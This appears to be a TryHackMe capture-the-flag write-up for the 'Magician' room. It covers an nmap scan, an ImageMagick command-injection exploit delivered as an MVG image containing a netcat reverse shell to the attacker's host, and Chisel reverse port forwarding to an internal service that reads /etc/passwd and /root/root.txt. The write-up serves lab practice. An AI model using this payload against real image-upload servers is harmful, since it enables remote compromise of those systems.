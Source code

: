 +++ 
draft = false
date = 2021-02-23T16:24:54+05:30
title = "Magician TryHackMe Writeup"
description = "Writeup of Room Magician THM"
slug = ""
authors = ["d4rkn1gh7"]
tags = ["ctf","thm","easy_box"]
categories = ["TryHackMe"]
externalLink = ""
series = ["TryHackMe"]
+++

# Magician TryHackMe Writeup

> Room Link : https://tryhackme.com/room/magician

![](/TryHackMe/Magician/BoxImage.png)



## Pathway

In this room we exploit a vulnerability in ImageMagick and gain foothold and find a service running internally , we portforward it to our local machine and get root flag.



## __First Stage : Enumeration__



So as usual we start with our fav nmap.

```
# Nmap 7.91 scan initiated Mon Feb 22 18:22:51 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan magician
Warning: 10.10.187.130 giving up on port because retransmission cap hit (6).
Nmap scan report for magician (10.10.187.130)
Host is up, received conn-refused (0.18s latency).
Scanned at 2021-02-22 18:22:51 IST for 725s
Not shown: 65527 closed ports
Reason: 65527 conn-refused
PORT      STATE    SERVICE        REASON      VERSION
21/tcp    open     ftp            syn-ack     vsftpd 2.0.8 or later
1620/tcp  filtered faxportwinport no-response
8080/tcp  open     http-proxy     syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 13:02:43 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T13:02:44.102+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 13:02:41 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T13:02:42.141+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 13:02:42 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T13:02:42.551+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest: 
|     HTTP/1.1 505 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Mon, 22 Feb 2021 13:02:43 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505 
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp  open     http           syn-ack     nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
27466/tcp filtered unknown        no-response
35186/tcp filtered unknown        no-response
48369/tcp filtered unknown        no-response
54978/tcp filtered unknown        no-response
1 service unrecognized despite returning data. 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 22 18:34:56 2021 -- 1 IP address (1 host up) scanned in 725.28 seconds
```


Hence we can see there is a http server running port 8081.



So let's add the machine ip in **/etc/hosts** as __magician__ .

![](/TryHackMe/Magician/port8081.png)


Hence this server converts png images to jpg format.


I tried intercepting the request , uploading reverse shell but none worked. So I tried enumerating ftp. And found something interesting (not a file)


![](/TryHackMe/Magician/ftp.png)

## __Second Stage : Initial Foothold__

Hence I visited the link and got to know about the what was happening in the background.

So ImageMagick is a package used by web servers to convert or process images . And this package had a serious vulnerability of RCE (the one hackers love) and this our clue to exploit this box. 

So in the article they explained how to create a image file with command injection . For example

exploit.mvg 

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```

Hence we need to create a payload like this for png , as I was searching for payloads I found one (two) in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

![](/TryHackMe/Magician/payloadlist.png)


Hence I cloned the repo and got the payload and changed the ip value and uploaded it.


exploit.png
```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/gjdpez; nc <vpnip> 4444 0</tmp/gjdpez | /bin/sh >/tmp/gjdpez 2>&1; rm /tmp/gjdpez '
pop graphic-context
```


And I got shell back.

![](/TryHackMe/Magician/magician.png)

And we can get user.txt.


## __Third Stage : Magician to root__


![](/TryHackMe/Magician/continue.png)


The word locally listening hinted me it has something to do with some service running internally.

So I ran the command 

> netstat -tulpn | grep LISTEN

![](/TryHackMe/Magician/openport.png)


So I used python server to download **Chisel** for portforwarding.

In my local machine 

> ./chisel server -p 10000 --reverse

In the thm machine

> ./chisel 10.8.74.96:10000 R:6666:127.0.0.1:6666


![](/TryHackMe/Magician/mymach.png)


![](/TryHackMe/Magician/vulnmach.png)


Next visiting http://127.0.0.1:6666 we can see

![](/TryHackMe/Magician/magicat.png)


I just tried **/etc/passwd**

And got 

![](/TryHackMe/Magician/test1.png)



Hence I tried **/root/root.txt**


![](/TryHackMe/Magician/encfl.png)


And I know this is **vigenere_chipher** , So I used a website to solve this.

> https://www.boxentriq.com/code-breaking/vigenere-cipher


And got root flag

![](/TryHackMe/Magician/root.png)